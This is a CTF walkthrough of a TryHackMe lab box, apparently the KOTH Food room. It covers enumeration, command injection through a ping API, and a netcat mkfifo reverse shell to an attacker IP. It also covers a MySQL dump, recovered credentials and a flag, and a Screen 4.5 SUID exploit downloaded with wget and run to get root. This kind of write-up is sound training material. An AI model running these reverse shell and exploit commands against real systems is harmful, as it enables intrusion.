 ### Enumerating

First we enumerate with 

```
nmap -p- $ip
nmap -sV -p 22,3306,9999,15065,16109,46969

```

![[Pasted image 20211124135525.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124135525.png)

There is a port for website; 15065 but its maintenance
![[Pasted image 20211124135712.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124135712.png)

Who is Dan? Okay let's just keep note on him for now.
Let's start enumerating with dirsearch.py

![[Pasted image 20211124140243.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140243.png)

### Reverse Shell - Web

There is a dir to /monitor. When we inspect it we get to observe comments 

![[Pasted image 20211124140148.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140148.png)

In bash terminal, we can put semicolone ; to execute next command. Let's try to enter our IP and 'whoami'

![[Pasted image 20211124140734.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124140734.png)

Seems like it doesnt allow us to do so, lets try to observe the javacsript.  I'm using sublime to copy and paste the main.js

![[Pasted image 20211124141337.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124141337.png)

But I guess it looks complicated to deobfuscate it; so let's observe how the pinging works. 
![[Pasted image 20211124141916.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124141916.png)

Over here we can see that there is a process called 'cmd' that is running the command 'ping -c 4 10.4.44.74'  and its requesting with POST method to /api/cmd

![[Pasted image 20211124142505.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124142505.png)

I wonder if we can curl through it from our machine directly.
`curl 10.10.71.59/api/cmd -X POST -d "whoami"`

where -d means data that is being send along with POST

![[Pasted image 20211124142814.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124142814.png)

Now let's try to spawn a reverse shell. Go to revshells.com and grab your line quick!

I'm using nc mkfifo and start a listener on my terminal
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.44.74 1234 >/tmp/f`

![[Pasted image 20211124143027.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124143027.png)
(apparently there's a glitch in my terminal .__. )

Since this is a KOTH room, we should try to exploit more ways to infiltrate. Let's try MySQL from the nmap service we saw earlier.

### MySQL

From our Machine, lets try;

`mysql -h 10.10.71.59 -u root -p`

```
show databases;
use users;
show tables;
select * from User;
```

![[Pasted image 20211124144056.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124144056.png)

thm{2f30841ff8d9646845295135adda8332} 

### SSH

Let's try to SSH it	, it seems the password and username is working fine

![[Pasted image 20211124144925.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124144925.png)

Let's try port number 16109. Now since we dont know much about it we can try nc or curl and see what response we would get.

![[Pasted image 20211124145112.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145112.png)

Looks like someone is treating us for lunch
![[Pasted image 20211124145214.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145214.png)

This is fishy, but let's try to stegseek it

![[Pasted image 20211124145301.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145301.png)

Welp boom, we are given this credential

`pasta:pastaisdynamic`

And of course let's try to SSH it again
![[Pasted image 20211124145445.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145445.png)
Yep, we got it.

But so far none can run sudo commands with `sudo -l`

Lets hope on to the last port number which nmap identified it as telnet. Let's try to telnet to the target machine

![[Pasted image 20211124145850.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124145850.png)

Found something really interesting, lets run it to CyberChef. It looks like its ROT but not sure what number.
tccr:uwjsasqccywsg

ROT13 is the most common but since it's wrong, I tweak a bit and got it that its ROT12 actually with this credential

`food:givemecookies`

### Privilege Escalation

We can SSH into Food account but unfortunately there are restrictions imposed on user Food. Let's get into other account and try to privesc.

We can try to find any SUID by using this command
`find / -type f -perm 4000 2>/dev/null`

There is an unusual file with SUID permission. We can try to exploit that Screen 4.50. Read more here -> https://www.exploit-db.com/exploits/41154
From our machine, let's do

```
searchsploit screen 4.5
locate linux/local/41154.sh
cp /usr/share/exploitdb/exploits/linux/local/41154.sh .
python3 -m http.server
```

![[Pasted image 20211124151119.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124151119.png)

And over the target machine we would just wget it
`wget http://10.4.44.74:8000/41154.sh`

And execute it.
`./41154.sh`

Now we are root.

![[Pasted image 20211124151143.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/KOTH%20Food%20CTF/attachments/Pasted%20image%2020211124151143.png)

And we can obtain the flag7 in the tryhackme directory also we can get the flag in the /root directory.




